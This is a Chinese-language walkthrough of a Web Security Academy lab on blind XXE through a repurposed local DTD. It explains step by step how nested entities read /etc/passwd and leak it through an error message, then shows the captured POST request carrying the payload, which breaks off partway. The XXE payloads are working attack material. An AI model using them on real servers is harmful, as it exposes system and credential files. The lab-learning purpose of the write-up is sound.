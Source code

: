 懂了payload 編碼後 我們在總結一次



程式碼開始解釋:
1.定義變數 local_dtd 請求 docbookx.dtd 檔


2.定義ISOamso字串變數 已經被解碼成
```
<!ENTITY % file SYSTEM "file:///etc/passwd">


<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">

%eval;
%error;
```


3.調用local_dtd 變數，加載到了 docbookx.dtd


4.docbookx.dtd 裡面有一個 ISOamso 變數 ，會調用 eval 字串變數


5.eval 字串變數 定義了 error 變數 (解碼)


6.error 變數
```
<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>
```


7.error 變數被調用 請求
```
file:///nonexistent/file:///etc/passwd
```



抓包丟上payload。
```http

POST /product/stock HTTP/1.1
Host: 0a9a00bf0356dd1fc0780cea005100d3.web-security-academy.net
Cookie: session=e3zLVNf3obz6SEmQnWEsva0N7rq5JGUI
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a9a00bf0356dd1fc0780cea005100d3.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 515
Origin: https://0a9a00bf0356dd1fc0780cea005100d3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE message [

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">



    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">

```